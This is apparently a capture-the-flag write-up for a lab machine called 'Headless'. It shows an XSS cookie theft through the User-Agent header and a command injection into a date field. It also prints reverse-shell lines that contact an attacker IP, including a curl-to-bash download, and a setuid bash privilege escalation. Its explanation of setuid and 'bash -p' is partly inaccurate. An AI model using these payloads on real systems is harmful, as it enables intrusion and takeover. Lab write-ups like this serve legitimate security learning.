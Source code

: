 # 😳 Headless

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First i start by scanning our machine:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

the port 5000 seemed to be the initial go to ->

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So after that I'll use feroxbuster to see if there is more to this:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

the **For questions** button led to the support page:

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and the dashboard is unauthorized:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's see if we can trigger some errors:

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

absolutely no response when submitted, weird

after trying to XSS this website with this:

```
<script>prompt(1)</script>
```

I got this error back:

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we have to modify this packate adding our payload at the ending separeting it with “;” and in our User-Agent field.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
python3 -m http.server 8989
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
Cookie: ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
nc -lvnp 8585
```

tried to capture a report generated and paste a shell

```
date=2023-09-15; sh -i >& /dev/udp/10.10.14.166/8585 0>&1
```

but it did not work

so i tried creating a file:&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
curl http://10.10.14.166:8000/shell.sh|bash
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

make a python server on port 8000, call it to retrieve your shell, then it will execute on server and return a reverse shell

first:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we cat the file and analise it, we can find that its manipulating a file name “initdb.sh”

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
echo "chmod +u+s /bin/bash" > initdb.sh
chmod +x initdb.sh
sudo /usr/bin/syscheck
/bin/bash -p 
whoami 
-root
```

this writes the string `chmod +u+s /bin/bash` into it. The `chmod +x initdb.sh` command then makes the `initdb.sh` file executable. The `sudo /usr/bin/syscheck` command is likely used to check the system for any inconsistencies or vulnerabilities.

The `+u+s` argument specifies that the user who owns the file (`u`) should be granted the setuid permission (`s`). The `setuid` permission allows any user to execute the file with the privileges of the user who owns the file, rather than the privileges of the user who started the file.

In this case, the `/bin/bash` file is being modified to allow the setuid bit for the user who owns the file. This means that any user can execute `bash` with the privileges of the user who owns the file, which is typically the root user. This technique can be used to escalate privileges in a system.

The crucial part of this sequence is the `/bin/bash -p` command, which starts a new `bash` shell with the `-p` option. This option preserves the environment's real and effective user and group IDs, as well as the saved user and group IDs. This is important because it ensures that the new `bash` shell runs with the original user's privileges, rather than the privileges of the user who started the `bash` shell.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (699).png" alt=""><figcaption></figcaption></figure>
